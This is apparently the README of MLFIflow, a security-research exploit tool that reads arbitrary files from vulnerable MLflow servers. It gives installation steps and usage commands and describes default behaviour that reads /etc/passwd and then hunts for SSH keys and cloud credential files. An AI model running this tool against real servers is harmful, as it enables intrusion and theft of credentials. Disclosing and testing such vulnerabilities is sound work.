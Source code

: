 # MLFIflow

MLFIflow is an exploit tool for reading arbitrary files from MLflow servers version 1.12 - 2.1.1.

## Installation

```bash
git clone https://github.com/protectai/MLFIflow.git
cd MLFIflow
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

By default, MLFIflow will attempt to read /etc/passwd from the MLflow server and use the usernames found to search for
SSH keys and cloud credential files.
```bash
python MLFIflow.py -s http://127.0.0.1:5000
```

To specify a wordlist of files to download, use the -f flag:
```bash
python MLFIflow.py -s http://127.0.0.1:5000 -f /path/to/wordlist.txt
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

## License

Copyright 2023 ProtectAI

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

   http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.